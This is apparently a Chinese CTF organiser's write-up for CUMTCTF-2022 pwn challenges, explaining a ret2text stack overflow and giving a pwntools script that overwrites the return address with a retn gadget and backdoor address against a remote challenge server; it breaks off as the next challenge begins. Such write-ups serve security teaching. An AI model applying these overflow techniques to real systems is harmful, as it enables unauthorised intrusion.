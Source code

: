 ```yaml
---
title: CUMTCTF-2022出题部分wp
date: 2022-6-8 12:04:04
tags: [CTF,Pwn,Crypto,Misc,Python]
categories: 
 - CTF
cover: https://res.cloudinary.com/sycamore/image/upload/v1682435935/Typera/2023/04/54a2923a541fe0c86555a91b264f4221.png
---
```


## PWN

### nc

这题就不说了吧，连上啥都有，我连要用到的命令解释都给了~

![image-20230426013827815](https://res.cloudinary.com/sycamore/image/upload/v1682444312/Typera/2023/04/6c7177a450f396a3cc1df92db2cec62b.png)
### ret2text
看一下保护：
![image-20230426013852620](https://res.cloudinary.com/sycamore/image/upload/v1682444337/Typera/2023/04/8810580d090cd91812198696d7ddb02d.png)
主函数：
![image-20230426013952537](https://res.cloudinary.com/sycamore/image/upload/v1682444396/Typera/2023/04/b70fb5e227640f018d72822fc557ad7e.png)
后门函数：
![image-20230426013957304](https://res.cloudinary.com/sycamore/image/upload/v1682444400/Typera/2023/04/217429008da529ab0c39ef4f51553b97.png)

栈溢出就行，一张好图理解一下：
![image-20230426014002698](https://res.cloudinary.com/sycamore/image/upload/v1682444407/Typera/2023/04/f1fddeaa3a59bd82ab8dbb7032f73399.png)

思路：用 ‘a' 覆盖 buf 一直到覆盖上ebp，然后将 ret(返回地址) 的地方写入为后门函数的地址。

双击左侧栏的backdoor函数，右侧能找到函数地址如图：
![image-20230426014006566](https://res.cloudinary.com/sycamore/image/upload/v1682444409/Typera/2023/04/0462346171ca0ff7f93c6db0364f57de.png)

直接照思路这么写，能打通本地，但是会打不通远程，因为栈帧没有平衡（hint），这时候中间插个 retn 的 gadget 就能解决。

随便找个retn的地址
这个就能用：

最后，脚本如下（环境没关，可以继续打远程）：![image-20230426014010146](https://res.cloudinary.com/sycamore/image/upload/v1682444413/Typera/2023/04/d5ad6da67403e757b9bc721f47816524.png)

```python
from pwn import *

#r=process(b'./ret2text')
r=remote(b'106.15.52.194',10002)
backdoor=0x4011DD
retn=0x401203
p=b'a'*40+p64(retn)+p64(backdoor)
r.sendlineafter(b'2022!',p)

r.interactive()
```
### overflow
保护和之前ret2text的一样，
同样可以使用栈溢出漏洞，但是没有一个写好的 backdoor 函数了。
